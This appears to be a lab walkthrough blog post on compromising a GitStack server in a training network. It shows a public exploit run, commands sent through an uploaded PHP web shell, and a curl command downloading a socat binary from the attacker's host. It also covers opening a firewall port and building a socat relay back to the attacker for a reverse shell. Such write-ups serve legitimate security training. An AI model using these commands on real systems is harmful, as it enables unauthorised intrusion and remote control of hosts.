 ## Git Server - Pivoting

We are recommended to use sshuttle for the initial access point because of the firewall on the CentOS target will be problematic with techniques shown.

- `sudo sshuttle -r root@10.200.105.200 --ssh-cmd "ssh -i ./prod-serv/id_rsa" 10.200.105.0/24 -x 10.200.105.200` gets us access to the 105 machine on our attacker where visiting we come accoss a django server error page.

![0xskar](/assets/wreath06.png)

- searching on our kali machine for an exploit `searchsploit gitstack` and copying the exploit to the working dir `searchsploit -m 43777`

* * * 

## Git Server - Code Review 

After copying the exploit to our working directory, and examinging the exploit, we learn we have to convert the DOS line ending to Linux. We can do so with `dos2unix`

After using `dos2unix 43777.py` to convert to unix, and knowing the program is written in python2 we can add the python2 shebang line at the top of the exploit so it will know which python to execute when running the exploit. `#!/usr/bin/python2`

* * * 

## Git Server - Exploitation 

After altering the code we run `./43777.py3.py` and get the exploit to run successfully. The exploit uploads a file to the target server. running whoami also returns us as nt authority/system.

- with curl `curl -X POST http://10.200.105.150/web/exploit-0xskar.php -d "a=whoami"`

And with burp we can also get a response after adding content-type and changing the request to POST

![0xskar](/assets/wreath07.png)

We can use burp to send multiple requests through repeater `systeminfo`

The hostname of the target is `GIT-SERV`, operating system is `Windows` and user is `nt authority\system`.

Before starting a reverse shell we have to make sure this server can communicate directly with the outside world. we can setup a TCPdump listener and ping our machine from the target.

1. on attacker `tcpdump -i tun0 icmp`
2. on target `ping -n 3 ATTACKER_IP`

0 ICMP ping packets make it to our listener so we have more work to do.

We are instructed for practice to setup a socat relay, and ensure that any ports we open are above 15000. BUT because this system has a CentOS IPTables firewall, before we do this we have to open the desired port in the firewall.

- on 10.200.105.200 `firewall-cmd --zone=public --add-port 15069/tcp` to open the desired port in firewall
- with a port open on the firewall its time to create a relay from 150 to 200 on 200, we can put the socat from the tools we downloaded onto ip 200 then create the relay
- download the socat binary `curl http://10.50.102.129/tools/Cats/Linux/socat -o /tmp/socat-0xskar && chmod +x /tmp/socat-0xskar`
- create the relay with socat `./socat-0xskar tcp-l:15069 tcp:10.50.102.129:443 &`  this sets up a listener on 15069 and a connection back to port 443 on out kali machine
- now with the relay setup we can send through a powershell reverse shell.